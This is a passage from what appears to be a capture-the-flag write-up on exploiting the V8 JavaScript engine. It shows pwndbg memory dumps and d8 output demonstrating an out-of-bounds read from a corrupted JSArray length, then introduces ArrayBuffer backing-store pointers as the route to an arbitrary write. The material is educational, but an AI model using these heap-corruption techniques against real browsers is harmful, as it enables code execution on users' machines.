 ```
pwndbg> dd 0x341208085d31-1 4
0000341208085d30     082438fd 080426dd 08085d21 fffffffe
```

```
+------------+------------+------------+------------+
| map        | properties | elements   | length     |
+------------+------------+------------+------------+
| 0x082438fd | 0x080426dd | 0x08085d21 | 0xfffffffe |
+------------+------------+------------+------------+
```

Here we can see the effect setting the length (`<1>`) to -1 had. When interpreted as an unsigned integer (like during bounds checks), it is treated as `0x7fffffff (2147483647)` since it's encoded as an Smi. The length on the backing array (`<2>`) is correct, however, as mentioned above only the length on the JSArray object matters.

We can verify that our OOB read is working by viewing the memory around the backing array with GDB (`0x3fe0000000000000` is 0.5, the first and only value in the array):
```
pwndbg> dq 0x341208085d21-1
0000341208085d20     0000000208042a31 3fe0000000000000
0000341208085d30     080426dd082438fd fffffffe08085d21
0000341208085d40     080426dd0824579d 08085d31080426dd
0000341208085d50     080426dd082422cd 08042301080426dd
```

```js
d8> ftoi(oob[1]).toString(16)
"80426dd082438fd"
d8> ftoi(oob[2]).toString(16)
"fffffffe08085d21"
```

**Note:** You might have noticed that backing array actually comes directly _before_ the JSArray, meaning it was allocated first. This won't be directly useful to us here, but it can be helpful if your overwrite is more limited than ours is. The minimal overwrite is first used to edit the size of the original array, turning what could be a two element overwrite into an arbitrarily large one. The official solve script does this.

## Arbitrary Write
Our OOB R/W is powerful, but not omnipotent. Our array has a lot of elements, but we can't address the entire 64bit address space, and we can't access memory behind us. Out next step will be to turn our relative R/W into one that can address arbitrary memory. Enter the [ArrayBuffer](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/ArrayBuffer).

ArrayBuffers are essentially byte arrays. We can use various typed array objects to interact with the buffer as different types (this is how `ftoi()` and `itof()` work). More importantly for us though, an ArrayBuffer has a full 64bit pointer to it's backing store:

```
    | d8> victim_buf = new ArrayBuffer(0x41)
    | [object ArrayBuffer]
    | d8> %DebugPrint(victim_buf)
    | DebugPrint: 0x341208087c0d: [JSArrayBuffer]
    |  - map: 0x34120824317d <Map(HOLEY_ELEMENTS)> [FastProperties]
    |  - prototype: 0x341208208ba9 <Object map = 0x3412082431a5>
    |  - elements: 0x3412080426dd <FixedArray[0]> [HOLEY_ELEMENTS]
    |  - embedder fields: 2
<1> |  - backing_store: 0x555556adc5c0
    |  - byte_length: 65
    |  - detachable
    |  - properties: 0x3412080426dd <FixedArray[0]> {}
    |  - embedder fields = {
    |     0, aligned pointer: (nil)
    |     0, aligned pointer: (nil)
    |  }
```